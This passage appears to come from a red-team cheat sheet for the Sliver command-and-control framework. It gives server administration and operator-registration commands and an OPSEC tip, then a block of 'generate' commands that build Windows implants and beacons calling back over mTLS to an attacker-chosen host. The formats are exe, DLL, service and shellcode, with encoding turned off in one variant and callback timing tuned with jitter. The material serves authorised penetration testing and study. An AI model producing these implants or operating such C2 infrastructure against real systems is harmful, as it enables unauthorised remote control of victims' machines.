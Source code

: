 ### Administration

```console
sliver > version
sliver > players
sliver > armory
sliver > armory install all
```

### Multiplayer

#### Register a new Operator

```console
root@c2:~# ./sliver-server operator --name <USERNAME> --lhost 127.0.0.1 --save /home/<USERNAME>/.sliver/configs/<USERNAME>.cfg
```

```console
root@c2:~/.sliver/configs$ chown <USERNAME>:<USERNAME> *.cfg
```

```console
username@c2:~/.sliver/configs$ sliver import <USERNAME>.cfg
```

#### Register a new Operator directly on the Sliver Server

```console
[server] sliver > multiplayer
```

```console
[server] sliver > new-operator --name <USERNAME> --lhost <LHOST>
```

```console
username@c2:~/.sliver/configs$ sliver import <USERNAME>.cfg
```

#### Kick Operator

```console
[server] sliver > kick-operator -n <USERNAME>
```

### OPSEC Considerations

To not expose Sliver to everyone consider binding it only to `localhost` in the `server.json`

```console
"host": "127.0.0.1",
```

### Implant and Beacon Creation 

```
sliver > help generate
sliver > generate --mtls <LHOST> --os windows --save /PATH/TO/BINARY/
sliver > generate --mtls <LHOST> --os windows --arch amd64 --save /PATH/TO/BINARY/
sliver > generate --mtls <LHOST> --os windows --arch amd64 --format exe --save /PATH/TO/BINARY/
sliver > generate --mtls <LHOST> --os windows --arch amd64 --format exe --disable-sgn --save /PATH/TO/BINARY/
sliver > generate --mtls <LHOST> --os windows --arch amd64 --format shared --save /PATH/TO/BINARY/
sliver > generate --mtls <LHOST> --os windows --arch amd64 --format service --save /PATH/TO/BINARY/
sliver > generate --mtls <LHOST> --os windows --arch amd64 --format shellcode --save /PATH/TO/BINARY/
sliver > generate --mtls <LHOST> --os windows --arch amd64 --format exe --save /PATH/TO/BINARY/ --seconds 5 --jitter 3
sliver > generate --mtls <LHOST>:<LPORT> --os windows --arch amd64 --format exe --save /PATH/TO/BINARY/ --seconds 5 --jitter 3
```